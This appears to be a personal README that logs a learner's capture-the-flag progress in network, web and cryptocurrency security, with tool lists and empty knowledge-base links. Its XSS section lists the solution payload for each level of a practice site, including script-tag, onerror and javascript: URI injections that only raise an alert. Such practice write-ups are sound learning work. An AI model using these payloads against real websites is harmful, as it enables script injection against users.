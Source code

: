 # My CTF Journey

Welcome to my Capture The Flag (CTF) learning journey! Here, I document the challenges I've solved and the skills I've gained in the world of cybersecurity.


## Network Security

### CTF 1

**Tools:**
- Nmap
- Wireshark
- Metasploit

**Knowledge Base:**
[Link to Network Security Knowledge Base](#)

---

## Web Application Security
### XSS
##### CTF 1 : [XSS-GAMES.APPSPOT](https://medium.com/@onehackman/learning-xss-part-1-reflected-xss-brief-concept-techniques-challenge-walkthrough-85f6b165541b)
**Level 1**
```javascript
<script>alert()</script>
```

**Level 2**
```javascript
<img src=x onerror=alert(1)>
```

**Level 3**
```javascript
https://xss-game.appspot.com/level3/frame#23' onerror=alert()>
```

```javascript
23' onerror=alert()>
```

**Level 4**
```javascript
1');alert('1
```

**Level 5**
```javascript
javascript:alert()
```

**Level 6**
```javascript
frame#data:text/plain,alert()
```
##### CTF 2
**Tools:**
- Burp Suite
- OWASP Zap
- SQLMap

**Knowledge Base:**
[Link to Web Application Security Knowledge Base](#)

---

## Cryptocurrency Security

### CTF 3

**Tools:**
- Ganache
- Remix IDE
- MythX

**Knowledge Base:**
[Link to Cryptocurrency Security Knowledge Base](#)

